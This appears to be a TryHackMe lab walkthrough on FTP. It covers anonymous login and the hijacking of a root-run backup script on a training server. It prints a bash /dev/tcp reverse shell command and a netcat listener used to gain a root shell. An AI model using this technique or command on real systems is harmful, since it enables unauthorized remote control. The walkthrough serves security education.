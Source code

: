 
**9.2.** Today's Learning Objectives:  
Understand the fundamentals of an FTP file server and some common misconfigurations to ultimately exploit these ourselves to gain entry to _tbfc-ftp-01._

  
  
**9.3.** What is FTP & Where is it Used?  
The File Transfer Protocol (FTP) offers a no-thrills means of file sharing in comparison to alternative  
protocols available. Whilst this protocol is unencrypted, it can be accessed through a variety of means; from dedicated software like FileZilla, the command line, or web browsers, FTP Servers have been long used to share files between devices across the Internet due to its compatibility.

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/replace/browser.png)  
_Accessing an FTP server using the Mozilla Firefox Web Browser._

FTP uses two connections when transferring data, as illustrated below:

![](https://cyberhoot.com/wp-content/uploads/2020/02/main-qimg-0fdf2c9fdedff2f4576874b57c662bbf.png)  
[(Cyberhoot., 2020)](https://cyberhoot.com/wp-content/uploads/2020/02/main-qimg-0fdf2c9fdedff2f4576874b57c662bbf.png)

The standard for these two connections are the two ports:

- Port 20 (Data)
- Port 21 (Commands)

Commands involve actions such as listing or navigating directories, writing to files. Whereas, the data port is where actual data such as the downloading/uploading of files are transferred over.

  
  
**9.4**. No Credentials? No Problem!   
Before any data can be shared, the client must log in to the FTP Server. This is to determine the commands that the client has the permission to execute, and the data that can be shared. Some websites use FTP to share files instead of the web server itself. Of course, this means that you'd have to share a username/password through some other way - that's not practical.

Enter FTP's "Anonymous" mode...This setting allows a default username to be used with any password by a client. This user is treated like any other user on the FTP server - including enforcing permissions and privileges to commands and data.

  
  
**9.5**. Using FTP Over Terminal  
  
  
  
  
  
  
  
We're going to be using the "FTP" package that comes installed on most Linux environments but especially the THM AttackBox.To connect, we simply use `ftp` and provide the IP address of the Instance. In my case, I would use `ftp 10.10.185.239`, but you would need to use `ftp MACHINE_IP` for your vulnerable Instance.

When prompted for our "**Name**", we enter "**anonymous**". If successful, we have confirmed that the FTP Server has "anonymous" mode enabled - successful login looking like so:

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img2.png)

You can use the `help` command to list some of the commands you can run whilst connected to the FTP Server. Here's a quick rundown of the fundamentals:

|Command|Description|
|---|---|
|ls|List files and directories in the working directory on the FTP server|
|cd|Change our working directory on the FTP server|
|get|Download a file from the FTP server to our device|
|put|Upload a file from our device to the FTP server|

Let's look at the directories available to us using `ls`. There is only one folder with data that our user has permission to access:  
![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img3.png)

We'll navigate to this using `cd` to change our working directory and then  `ls` to list the contents. The file within this folder contains a file with a **".sh"** extension. This extension is a shell script, that when executed, will run commands that we program. Let's use `get` **to get** the file from the server onto our device, so we understand why this file has been left here!

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img4.png)

  
  
9.6. Finding our Exploit  
With the file downloaded, let's open it on our device using a terminal text editor such as nano.

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img5.png)

We don't need to understand what happens here outside of the comments. The script executes every minute (according to Elf McEager), creates a backup of a folder and stores it in Elf McEager's home directory. What if we were to replace the commands executed in this script with our own, malicious commands? Uploading a file requires separate permission that shouldn't be granted to the "anonymous" user. However, permissions are very easy to oversight - such as in the case here.

**9.6.1.** Let's use [pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) to get a good command that will be executed by the server to  
generate a shell to our AttackBox, replacing the IP_ADDRESS with your TryHackMe IP, this address is displayed on the navigation bar on the [Access page](https://tryhackme.com/access).

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img6.png)

**9.6.2.** Let's set up a `netcat` listener to catch the connection on our AttackBox: `nc -lvnp 4444`

**9.6.3.** We'll now attempt to upload our malicious script to the folder that we have write permissions on the FTP server by returning to our FTP prompt  
and using `put` **to put** the file into that directory (ensuring it is your current directory).

**9.6.4.** Return to our `netcat` listener, after waiting one minute, you should see an output like below! Success! We have a reverse system shell on the FTP Server as the most powerful user. Any commands you now use will execute on the FTP server's system.

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img9.png)

Proceed to use commands similar to what we have used before to find the contents of root.txt located in the root directory! Let's break down exactly what happened here and explain the reasons as why this exploit happened:

**9.6.5.1.** The FTP Server has anonymous mode enabled allowing us to authenticate. This isn't inherently  
insecure and has many legitimate uses.

**9.6.5.2**. We've discovered that we have permission to upload and download files. Whilst is also normal behaviour for FTP servers, anonymous users should not be able to upload files.

**9.6.5.3.** We've interpreted the information from a legitimate backup script to create a reverse shell onto our host.

**9.6.5.4.** The script executes as the "root" user - the most powerful on a Linux system. This is also a vulnerability, as now we have full access to the system. The use of this user should be restricted wherever possible. If the script were to execute as "elfmceager", we'd only have access to the system as that user (a much less powerful one in comparison)

  
  
**9.7.** Conclusion, where to go from here and additional Material:  
We've covered the fundamentals of FTP servers and why they're still used today. Not only this, but  
we've also learned how simple misconfigurations can lead to a full-blown hack on an FTP Server. If you're keen to learn more, the [Network Services](https://tryhackme.com/room/networkservices) walkthrough room (created by [Polomints](https://tryhackme.com/p/PoloMints)) also covers FTP. If you wish to sharpen your skills,  
you may find the "[Anonymous](https://tryhackme.com/room/anonymous)" Challenge room (created by [Nameless0ne](https://tryhackme.com/p/Nameless0ne)) a fun dojo.